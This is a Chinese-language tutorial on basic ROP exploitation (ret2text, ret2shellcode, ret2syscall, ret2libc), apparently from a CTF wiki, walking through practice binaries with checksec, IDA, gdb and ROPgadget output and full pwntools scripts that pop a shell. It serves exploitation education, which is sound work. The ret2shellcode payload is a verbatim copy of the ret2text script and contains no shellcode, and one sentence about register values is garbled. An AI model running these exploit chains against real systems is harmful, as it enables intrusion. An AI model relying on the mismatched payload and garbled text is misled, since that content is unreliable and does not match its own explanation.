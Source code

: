 基本ROP
=======

随着NX保护的开启，以往直接向栈或者堆上直接注入代码的方式难以继续发挥效果。攻击者们也提出来相应的方法来绕过保护，目前主要的是ROP(Return Oriented
Programming)，其主要思想是在\ **栈缓冲区溢出的基础上(这一条之后不再重复提及)，通过利用程序中已有的小片段(gadgets)来改变某些寄存器或者变量的值，从而改变程序的执行流程。**\ 所谓gadgets就是以ret结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程。

之所以称之为ROP，是因为核心在于利用了指令集中的ret指令，改变了指令流的执行顺序。ROP攻击一般得满足如下条件

-  程序存在溢出，并且可以控制返回地址。
-  可以找到满足条件的gadgets以及相应gadgets的地址。如果当程序开启了PIE保护，那么就必须想办法泄露gadgets的地址了。

ret2text
--------

原理
~~~~

ret2text即需要我们控制程序执行程序本身已有的的代码(.text)。其实，这种攻击方法是一种笼统的描述。我们控制执行程序已有的代码的时候也可以控制程序执行好几段不相邻的程序已有的代码(也就是gadgets)，这就是我们所要说的rop。

这时，我们需要知道对应返回的代码的位置。当然程序也可能会开启某些保护，我们需要想办法去绕过这些保护。

例子
~~~~

其实，在栈溢出的基本原理中，我们已经介绍了这一简单的攻击。在这里，我们再给出另外一个例子，bamboofox中介绍ROP时使用的ret2text的例子。

首先，查看一下程序的保护机制

.. code:: shell

    ➜  ret2text checksec ret2text
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)

可以看出程序是32位程序，其仅仅开启了栈不可执行保护。然后，我们使用IDA来查看源代码。

.. code:: c

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      int v4; // [sp+1Ch] [bp-64h]@1

      setvbuf(stdout, 0, 2, 0);
      setvbuf(_bss_start, 0, 1, 0);
      puts("There is something amazing here, do you know anything?");
      gets((char *)&v4);
      printf("Maybe I will tell you next time !");
      return 0;
    }

可以看出程序在主函数中使用了gets函数，显然存在栈溢出漏洞。此后又发现

.. code:: asm

    .text:080485FD secure          proc near
    .text:080485FD
    .text:080485FD input           = dword ptr -10h
    .text:080485FD secretcode      = dword ptr -0Ch
    .text:080485FD
    .text:080485FD                 push    ebp
    .text:080485FE                 mov     ebp, esp
    .text:08048600                 sub     esp, 28h
    .text:08048603                 mov     dword ptr [esp], 0 ; timer
    .text:0804860A                 call    _time
    .text:0804860F                 mov     [esp], eax      ; seed
    .text:08048612                 call    _srand
    .text:08048617                 call    _rand
    .text:0804861C                 mov     [ebp+secretcode], eax
    .text:0804861F                 lea     eax, [ebp+input]
    .text:08048622                 mov     [esp+4], eax
    .text:08048626                 mov     dword ptr [esp], offset unk_8048760
    .text:0804862D                 call    ___isoc99_scanf
    .text:08048632                 mov     eax, [ebp+input]
    .text:08048635                 cmp     eax, [ebp+secretcode]
    .text:08048638                 jnz     short locret_8048646
    .text:0804863A                 mov     dword ptr [esp], offset command ; "/bin/sh"
    .text:08048641                 call    _system

在secure函数又发现了存在调用system("/bin/sh")的代码，那么如果我们直接控制程序返回至0x0804863A，那么就可以得到系统的shell了。

下面就是我们如何构造payload了，首先需要确定的是我们能够控制的内存地址距离main函数的返回地址的字节数。

.. code:: asm

    .text:080486A7                 lea     eax, [esp+1Ch]
    .text:080486AB                 mov     [esp], eax      ; s
    .text:080486AE                 call    _gets

可以看到该字符串是通过相对于esp的索引，所以我们需要进行调试，将断点下在call处，查看esp，ebp，如下

.. code:: shell

    gef➤  b *0x080486AE
    Breakpoint 1 at 0x80486ae: file ret2text.c, line 24.
    gef➤  r
    There is something amazing here, do you know anything?

    Breakpoint 1, 0x080486ae in main () at ret2text.c:24
    24      gets(buf);
    ───────────────────────────────────────────────────────────────────────[ registers ]────
    $eax   : 0xffffcd5c  →  0x08048329  →  "__libc_start_main"
    $ebx   : 0x00000000
    $ecx   : 0xffffffff
    $edx   : 0xf7faf870  →  0x00000000
    $esp   : 0xffffcd40  →  0xffffcd5c  →  0x08048329  →  "__libc_start_main"
    $ebp   : 0xffffcdc8  →  0x00000000
    $esi   : 0xf7fae000  →  0x001b1db0
    $edi   : 0xf7fae000  →  0x001b1db0
    $eip   : 0x080486ae  →  <main+102> call 0x8048460 <gets@plt>

可以看到esp为0xffffcd40，ebp为具体的payload如下0xffffcdc8，同时s相对于esp的索引为[esp+0x1c]，所以，s的地址为0xffffcd5c，所以s相对于ebp的偏移为0x6C，所以相对于返回地址的偏移为0x6c+4。

最后的payload如下：

.. code:: python

    ##!/usr/bin/env python
    from pwn import *

    sh = process('./ret2text')
    target = 0x804863a
    sh.sendline('A' * (0x6c+4) + p32(target))
    sh.interactive()

题目
~~~~

ret2shellcode
-------------

原理
~~~~

ret2shellcode需要我们控制程序执行shellcode代码。而所谓的shellcode指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的shell。\ **一般来说，shellcode都需要我们自己去填充。这其实是另外一种典型的利用的方法，即此时我们需要自己去填充一些可执行的代码**\ 。

而在栈溢出的基础上，我们一般都是向栈中写内容，所以要想执行shellcode，需要对应的binary文件没有开启NX保护。

例子
~~~~

这里我们以bamboofox中的ret2shellcode为例，首先检测程序开启的保护

.. code:: shell

    ➜  ret2shellcode checksec ret2shellcode
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX disabled
        PIE:      No PIE (0x8048000)
        RWX:      Has RWX segments

可以看出源程序几乎没有开启任何保护，并且有可读，可写，可执行段。我们再使用IDA看一下程序

.. code:: c

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      int v4; // [sp+1Ch] [bp-64h]@1

      setvbuf(stdout, 0, 2, 0);
      setvbuf(stdin, 0, 1, 0);
      puts("No system for you this time !!!");
      gets((char *)&v4);
      strncpy(buf2, (const char *)&v4, 0x64u);
      printf("bye bye ~");
      return 0;
    }

可以看出，程序仍然是基本的栈溢出漏洞，不过这次还同时将对应的字符串复制到buf2处。简单查看可知buf2在bss段。

.. code:: asm

    .bss:0804A080                 public buf2
    .bss:0804A080 ; char buf2[100]

这时，我们简单的调试下程序，看看这一个bss段是否可执行。

.. code:: shell

    gef➤  b main
    Breakpoint 1 at 0x8048536: file ret2shellcode.c, line 8.
    gef➤  r
    Starting program: /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode 

    Breakpoint 1, main () at ret2shellcode.c:8
    8       setvbuf(stdout, 0LL, 2, 0LL);
    ─────────────────────────────────────────────────────────────────────[ source:ret2shellcode.c+8 ]────
          6  int main(void)
          7  {
     →    8      setvbuf(stdout, 0LL, 2, 0LL);
          9      setvbuf(stdin, 0LL, 1, 0LL);
         10  
    ─────────────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0x8048536 → Name: main()
    ─────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤  vmmap 
    Start      End        Offset     Perm Path
    0x08048000 0x08049000 0x00000000 r-x /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
    0x08049000 0x0804a000 0x00000000 r-x /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
    0x0804a000 0x0804b000 0x00001000 rwx /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
    0xf7dfc000 0xf7fab000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so
    0xf7fab000 0xf7fac000 0x001af000 --- /lib/i386-linux-gnu/libc-2.23.so
    0xf7fac000 0xf7fae000 0x001af000 r-x /lib/i386-linux-gnu/libc-2.23.so
    0xf7fae000 0xf7faf000 0x001b1000 rwx /lib/i386-linux-gnu/libc-2.23.so
    0xf7faf000 0xf7fb2000 0x00000000 rwx 
    0xf7fd3000 0xf7fd5000 0x00000000 rwx 
    0xf7fd5000 0xf7fd7000 0x00000000 r-- [vvar]
    0xf7fd7000 0xf7fd9000 0x00000000 r-x [vdso]
    0xf7fd9000 0xf7ffb000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.23.so
    0xf7ffb000 0xf7ffc000 0x00000000 rwx 
    0xf7ffc000 0xf7ffd000 0x00022000 r-x /lib/i386-linux-gnu/ld-2.23.so
    0xf7ffd000 0xf7ffe000 0x00023000 rwx /lib/i386-linux-gnu/ld-2.23.so
    0xfffdd000 0xffffe000 0x00000000 rwx [stack]

通过vmmap，我们可以看到bss段对应的段具有可执行权限

.. code:: text

    0x0804a000 0x0804b000 0x00001000 rwx /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode

那么这次我们就控制程序执行shellcode，也就是读入shellcode，然后控制程序执行bss段处的shellcode。其中，相应的偏移计算类似于ret2text中的例子。

具体的payload如下

.. code:: python

    ##!/usr/bin/env python
    from pwn import *

    sh = process('./ret2text')
    target = 0x804863a
    sh.sendline('A' * (0x6c + 4) + p32(target))
    sh.interactive()

题目
~~~~

-  sniperoj-pwn100-shellcode-x86-64

ret2syscall
-----------

原理
~~~~

ret2syscall需要我们控制程序执行系统调用，获取shell。

例子
~~~~

这里我们以bamboofox中的ret2syscall为例，首先检测程序开启的保护

.. code:: shell

    ➜  ret2syscall checksec rop
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)

可以看出，源程序为32位，开启了NX保护。接下来利用IDA来查看源码

.. code:: c

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      int v4; // [sp+1Ch] [bp-64h]@1

      setvbuf(stdout, 0, 2, 0);
      setvbuf(stdin, 0, 1, 0);
      puts("This time, no system() and NO SHELLCODE!!!");
      puts("What do you plan to do?");
      gets(&v4);
      return 0;
    }

可以看出此次仍然是一个栈溢出。类似于之前的做法，我们可以获得v4相对于ebp的偏移为108。所以我们需要覆盖的返回地址相对于v4的偏移为112。此次，由于我们不能直接利用程序中的某一段代码或者自己填写代码来获得shell，所以我们利用程序中的gadgets来获得shell，而对应的shell获取则是利用系统调用。关于系统调用的知识，请参考

-  https://zh.wikipedia.org/wiki/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8

简单地说，只要我们把对应获取shell的系统调用的参数放到对应的寄存器中，那么我们在执行int 0x80就可执行对应的系统调用。比如说这里我们利用如下系统调用来获取shell

.. code:: c

    execve("/bin/sh",NULL,NULL)

其中，该程序是32位，所以我们需要使得

-  系统调用号即eax应该为0xb
-  第一个参数即ebx应该指向/bin/sh的地址，其实执行sh的地址也可以
-  第二个参数即ecx应该为0
-  第三个参数edx应该为0

而我们如何控制这些寄存器的值 呢？这里就需要使用gadgets。比如说，现在栈顶是10，那么如果此时执行了pop
eax，那么现在eax的值就为10。但是我们并不能期待有一段连续的代码可以同时控制对应的寄存器，所以我们需要一段一段控制，这也是我们在gadgets最后使用ret来再次控制程序执行流程的原因。具体寻找gadgets的方法，我们可以使用ropgadgets这个工具。

首先，我们来寻找控制eax的gadgets

.. code:: shell

    ➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
    0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
    0x080bb196 : pop eax ; ret
    0x0807217a : pop eax ; ret 0x80e
    0x0804f704 : pop eax ; ret 3
    0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret

可以看到有上述几个都可以控制eax，那我就选取第二个来作为我的gadgets。

类似的，我们可以得到控制其它寄存器的gadgets

.. code:: shell

    ➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'ebx'
    0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
    0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
    0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
    0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
    0x080be23f : pop ebx ; pop edi ; ret
    0x0806eb69 : pop ebx ; pop edx ; ret
    0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
    0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
    0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
    0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
    0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
    0x0805ae81 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
    0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
    0x08048913 : pop ebx ; pop esi ; pop edi ; ret
    0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
    0x08049a94 : pop ebx ; pop esi ; ret
    0x080481c9 : pop ebx ; ret
    0x080d7d3c : pop ebx ; ret 0x6f9
    0x08099c87 : pop ebx ; ret 8
    0x0806eb91 : pop ecx ; pop ebx ; ret
    0x0806336b : pop edi ; pop esi ; pop ebx ; ret
    0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
    0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
    0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
    0x0805c820 : pop esi ; pop ebx ; ret
    0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
    0x0807b6ed : pop ss ; pop ebx ; ret

这里，我选择

.. code:: text

    0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret

这个可以直接控制其它三个寄存器。

此外，我们需要获得/bin/sh字符串对应的地址。

.. code:: shell

    ➜  ret2syscall ROPgadget --binary rop  --string '/bin/sh' 
    Strings information
    ============================================================
    0x080be408 : /bin/sh

可以找到对应的地址，此外，还有int 0x80的地址，如下

.. code:: text

    ➜  ret2syscall ROPgadget --binary rop  --only 'int'                 
    Gadgets information
    ============================================================
    0x08049421 : int 0x80
    0x080938fe : int 0xbb
    0x080869b5 : int 0xf6
    0x0807b4d4 : int 0xfc

    Unique gadgets found: 4

同时，也找到对应的地址了。

下面就是对应的payload,其中0xb为execve对应的系统调用号。

.. code:: python

    ##!/usr/bin/env python
    from pwn import *

    sh = process('./rop')

    pop_eax_ret = 0x080bb196
    pop_edx_ecx_ebx_ret = 0x0806eb90
    int_0x80 = 0x08049421
    binsh = 0x80be408
    payload = flat(
        ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
    sh.sendline(payload)
    sh.interactive()

题目
~~~~

ret2libc
--------

原理
~~~~

ret2libc即控制函数的执行 libc中的函数，通常是返回至某个函数的plt处或者函数的具体位置(即函数对应的got表项的内容)。一般情况下，我们会选择执行system("/bin/sh")，故而此时我们需要知道system函数的地址。

例子
~~~~

我们由简单到难分别给出三个例子。

例1
^^^

这里我们以bamboofox中ret2libc1为例。首先，我们可以检查一下程序的安全保护

.. code:: shell

    ➜  ret2libc1 checksec ret2libc1    
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)

源程序为32位，开启了NX保护。下面来看一下程序源代码，确定漏洞位置

.. code:: c

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      int v4; // [sp+1Ch] [bp-64h]@1

      setvbuf(stdout, 0, 2, 0);
      setvbuf(_bss_start, 0, 1, 0);
      puts("RET2LIBC >_<");
      gets((char *)&v4);
      return 0;
    }

可以看到在执行gets函数的时候出现了栈溢出。此外，利用ropgadget，我们可以查看是否有/bin/sh存在

.. code:: shell

    ➜  ret2libc1 ROPgadget --binary ret2libc1 --string '/bin/sh'          
    Strings information
    ============================================================
    0x08048720 : /bin/sh

确实存在，再次查找一下是否有system函数存在。经在ida中查找，确实也存在。

.. code:: asm

    .plt:08048460 ; [00000006 BYTES: COLLAPSED FUNCTION _system. PRESS CTRL-NUMPAD+ TO EXPAND]

那么，我们直接返回该处，即执行system函数。相应的payload如下

.. code:: python

    ##!/usr/bin/env python
    from pwn import *

    sh = process('./ret2libc1')

    binsh_addr = 0x8048720
    system_plt = 0x08048460
    payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
    sh.sendline(payload)

    sh.interactive()

这里我们需要注意函数调用栈的结构，如果是正常调用system函数，我们调用的时候会有一个对应的返回地址，这里以'bbbb'作为虚假的地址，其后参数对应的参数内容。

这个例子，相对来说，最为简单，同时提供了system地址与/bin/sh的地址，但是大多数程序并不会有这么好的情况。

例2
^^^

这里以bamboofox中的ret2libc2为例，该题目与例1基本一致，只不过不再出现/bin/sh字符串，所以此次需要我们自己来读取字符串，所以我们需要两个gadgets，第一个控制程序读取字符串，第二个控制程序执行system(""/bin/sh")。由于漏洞与上述一致，这里就不在多说，具体的exp如下

.. code:: python

    ##!/usr/bin/env python
    from pwn import *

    sh = process('./ret2libc2')

    gets_plt = 0x08048460
    system_plt = 0x08048490
    pop_ebx = 0x0804843d
    buf2 = 0x804a080
    payload = flat(
        ['a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
    sh.sendline(payload)
    sh.sendline('/bin/sh')
    sh.interactive()

需要注意的是，我这里向程序中bss段的buf2处写入/bin/sh字符串，并将其地址作为system的参数传入。这样以便于可以获得shell。

例3
^^^

这里以bamboofox中的ret2libc3为例，在例2的基础上，再次将system函数的地址去掉。此时，我们需要同时找到system函数地址与/bin/sh字符串的地址。首先，查看安全保护

.. code:: shell

    ➜  ret2libc3 checksec ret2libc3
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)

可以看出，源程序仍旧开启了堆栈不可执行保护。进而查看源码，发现程序的bug仍然是栈溢出

.. code:: c

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      int v4; // [sp+1Ch] [bp-64h]@1

      setvbuf(stdout, 0, 2, 0);
      setvbuf(stdin, 0, 1, 0);
      puts("No surprise anymore, system disappeard QQ.");
      printf("Can you find it !?");
      gets((char *)&v4);
      return 0;
    }

那么我们如何得到system函数的地址呢？这里就主要利用了两个知识点

-  system函数属于libc，而libc.so文件中的函数之间相对偏移是固定的。
-  即使程序有ASLR保护，也只是针对于地址中间位进行随机，最低的12位并不会发生改变。而libc在github上有人进行收集，具体细节如下
-  https://github.com/niklasb/libc-database

所以如果我们知道libc中某个函数的地址，那么我们就可以确定该程序利用的libc。进而我们就可以知道system函数的地址。

那么如何得到libc中的某个函数的地址呢？我们一般常用的方法是采用got表泄露，即输出某个函数对应的got表项的内容。\ **当然，由于libc的延迟绑定机制，我们需要选择已经执行过的函数来进行泄露。**

我们自然可以根据上面的步骤先得到libc，之后在程序中查询偏移，然后再次获取system地址，但这样手工操作次数太多，有点麻烦，这里给出一个libc的利用工具，具体细节请参考readme

-  https://github.com/lieanu/LibcSearcher

此外，在得到libc之后，其实libc中也是有/bin/sh字符串的，所以我们可以一起获得/bin/sh字符串的地址。

这里我们泄露\_\_libc\_start\_main的地址，这是因为它是程序最初被执行的地方。基本利用思路如下

-  泄露\_\_libc\_start\_main地址
-  获取libc版本
-  获取system地址与/bin/sh的地址
-  再次执行源程序
-  触发栈溢出执行system(‘/bin/sh’)

exp如下

.. code:: python

    ##!/usr/bin/env python
    from pwn import *
    from LibcSearcher import LibcSearcher
    sh = process('./ret2libc3')

    ret2libc3 = ELF('./ret2libc3')

    puts_plt = ret2libc3.plt['puts']
    libc_start_main_got = ret2libc3.got['__libc_start_main']
    main = ret2libc3.symbols['main']

    print "leak libc_start_main_got addr and return to main again"
    payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
    sh.sendlineafter('Can you find it !?', payload)

    print "get the related addr"
    libc_start_main_addr = u32(sh.recv()[0:4])
    libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
    libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
    system_addr = libcbase + libc.dump('system')
    binsh_addr = libcbase + libc.dump('str_bin_sh')

    print "get shell"
    payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
    sh.sendline(payload)

    sh.interactive()

题目
~~~~

-  train.cs.nctu.edu.tw ret2libc

shell获取小结
-------------

这里总结几种常见的获取shell的方式：

-  执行shellcode，这一方面也会有不同的情况
-  可以直接返回shell
-  可以将shell返回到某一个端口
-  shellcode中字符有时候需要满足不同的需求
-  **注意，我们需要将shellcode写在可以执行的内存区域中。**
-  执行system("/bin/sh"),system('sh')等等
-  关于system的地址，参见下面章节的\ **地址寻找**\ 。
-  关于"/bin/sh"， “sh”

   -  首先寻找binary里面有没有对应的字符串,\ **比如说有flush函数，那就一定有sh了**
   -  考虑个人读取对应字符串
   -  libc中其实是有/bin/sh的

-  优点

   -  只需要一个参数。

-  缺点

   -  **有可能因为破坏环境变量而无法执行。**

-  执行execve("/bin/sh",NULL,NULL)
-  前几条同system
-  优点

   -  几乎不受环境变量的影响。

-  缺点

   -  **需要3个参数。**

-  系统调用
-  系统调用号11

地址寻找小结
------------

在整个漏洞利用过程中，我们总是免不了要去寻找一些地址，常见的寻找地址的类型，有如下几种

通用寻找
~~~~~~~~

直接地址寻找
^^^^^^^^^^^^

程序中已经给出了相关变量或者函数的地址了。这时候，我们就可以直接进行利用了。

got表寻找
^^^^^^^^^

有时候我们并不一定非得直接知道某个函数的地址，可以利用GOT表的跳转到对应函数的地址。当然，如果我们非得知道这个函数的地址，我们可以利用write，puts等输出函数将GOT表中地址处对应的内容输出出来（\ **前提是这个函数已经被解析一次了**\ ）。

有libc
~~~~~~

**相对偏移寻找**\ ，这时候我们就需要考虑利用libc中函数的基地址一样这个特性来寻找了。其实\_\_libc\_start\_main就是libc在内存中的基地址。\ **注意：不要选择有wapper的函数，这样会使得函数的基地址计算不正确。**\ 常见的有wapper的函数有（待补充）。

无libc
~~~~~~

其实，这种情况的解决策略分为两种

-  想办法获取libc
-  想办法直接获取对应的地址。

而对于想要泄露的地址，我们只是单纯地需要其对应的内容，所以puts和write均可以。

-  puts会有\\\x00截断的问题
-  write可以指定长度输出的内容。

下面是一些相应的方法

DynELF
^^^^^^

前提是我们可以泄露任意地址的内容。

-  **如果要使用write函数泄露的话，一次最好多输出一些地址的内容，因为我们一般是只是不断地向高地址读内容，很有可能导致高地址的环境变量被覆盖，就会导致shell不能启动。**

libc数据库
^^^^^^^^^^

.. code:: shell

    ## 更新数据库
    ./get
    ## 将已有libc添加到数据库中
    ./add libc.so 
    ## Find all the libc's in the database that have the given names at the given addresses. 
    ./find function1 addr function2 addr
    ## Dump some useful offsets, given a libc ID. You can also provide your own names to dump.
    ./Dump some useful offsets

去libc的数据库中找到对应的和已经出现的地址一样的libc，这时候很有可能是一样的。

-  libcdb.com

**当然，还有上面提到的https://github.com/lieanu/LibcSearcher。**

ret2dl-resolve
^^^^^^^^^^^^^^

当ELF文件采用动态链接时，got表会采用延迟绑定技术。当第一次调用某个libc函数时，程序会调用\_dl\_runtime\_resolve函数对其地址解析。因此，我们可以利用栈溢出构造ROP链，伪造对其他函数（如：system）的解析。这也是我们在高级rop中会介绍的技巧。

题目
----

-  train.cs.nctu.edu.tw
-  rop
-  2013-PlaidCTF-ropasaurusrex
-  Defcon 2015 Qualifier: R0pbaby

**参考阅读**

-  乌云一步一步ROP篇(蒸米)
-  `手把手教你栈溢出从入门到放弃（上） <https://zhuanlan.zhihu.com/p/25816426>`__
-  `手把手教你栈溢出从入门到放弃（下） <https://zhuanlan.zhihu.com/p/25892385>`__
-  `【技术分享】现代栈溢出利用技术基础：ROP <http://bobao.360.cn/learning/detail/3694.html>`__
